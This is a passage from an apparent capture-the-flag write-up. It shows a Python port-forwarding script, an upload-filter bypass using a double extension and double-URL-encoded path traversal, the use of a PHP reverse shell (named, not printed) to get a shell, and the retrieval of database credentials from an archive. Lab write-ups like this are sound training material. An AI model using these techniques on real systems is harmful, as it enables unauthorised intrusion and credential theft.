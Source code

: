 ```python
            data = source.recv(4096)
            if not data:
                break
            destination.sendall(data)
    except:
        pass
    finally:
        source.close()
        destination.close()

def main():
    listen_addr = '0.0.0.0'
    listen_port = 7733

    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((listen_addr, listen_port))
    server.listen(5)
    print(f'[*] Listening on {listen_addr}:{listen_port}')

    while True:
        client_socket, addr = server.accept()
        print(f'[*] Accepted connection from {addr[0]}:{addr[1]}')
        threading.Thread(target=handle_client, args=(client_socket,)).start()

if __name__ == '__main__':
    main()
```
21. Running the script on the machine allowed me to access the internal app forwarded on port 7733 `http://10.10.254.205:7733`
22. We the application accessible we can login with credentials discovered in the file `from_orville.txt` exfiltrated earlier
23. The application allows you to upload an image file on the `/uploads` folder. To bypass the file type is as simple as naming the payload `payload.jpg.php` but the problem is that files uploaded in this folder can't be executed server-side due to server configuration settings designed to enhance security by preventing code execution in certain directories (we know this because the file is downloaded instead run when you try to access it)
24. The next step will be to find a way to upload a file named `../payload.jpg.php` and hope the script will simply concatenate the file path with file name resulting in something like `/uploads/../payload.jpg.php` this way we can simply run the file outside restricted directory like `http://10.10.191.31:7733/payload.jpg.php`
25. The problem is that the application is removing special characters like`./` and we need to find a way to encode it to pass the filters
26. After a couple of attempts I have double URL encoded the character and it worked. Basically I have encoded `../xcat.jpg.php` to `%252e%252e%252fxcat.jpg.php` and I have replaced the file content with a simple PHP

```php
<?php
echo "PHP is working!";
?>
```
27. I checked the usual directory `/uploads` and I saw the file is not in there than I tried to see if it was uploaded one folder up by requesting `http://10.10.102.219:7733/xcat.jpg.php` and it worked
28. Now that we have a way to upload and run PHP files I have started a listener locally and uploaded a new file called `%252e%252e%252fptest.jpg.php` containing "PHP PentestMonkey" reverse shell and I run the file as before to spawn a shell as `orville` user
#### Data exfiltration
1. In the user home directory there is a file called `flag2.txt` containing the second flag: **[FLAG2]**
2. In the `orville` home directory there is an archive you can open with `unzip web_snapshot.zip`
3. The archive contains a data base configuration file `var/www/html/includes/db.php` containing user name and password to connect to MySQL
